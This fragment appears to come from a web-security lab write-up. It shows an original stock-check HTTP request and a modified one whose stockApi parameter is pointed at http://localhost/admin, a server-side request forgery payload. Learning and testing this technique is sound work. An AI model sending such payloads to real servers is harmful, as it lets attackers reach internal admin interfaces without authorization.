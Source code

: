 Original request:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Modified request:

<pre>
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=<b>http://localhost/admin</b>
</pre>



